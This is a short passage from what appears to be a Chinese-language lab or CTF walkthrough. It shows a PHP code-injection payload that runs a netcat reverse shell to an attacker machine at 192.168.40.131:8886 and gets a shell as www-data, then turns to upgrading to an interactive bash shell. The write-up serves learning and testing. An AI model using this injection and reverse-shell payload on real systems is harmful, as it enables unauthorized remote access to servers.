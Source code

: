 payload编码后重新发送请求，命令成功执行了

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

生成nc反向shell再次发送请求，将以下payload进行url编码，攻击机监听8886

```
index');${system('nc -c bash 192.168.40.131 8886')};#
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

可以看到返回一个www-data的一个用户，继续看下有什么有用的信息，先获取一个交互式的 Bash Shell
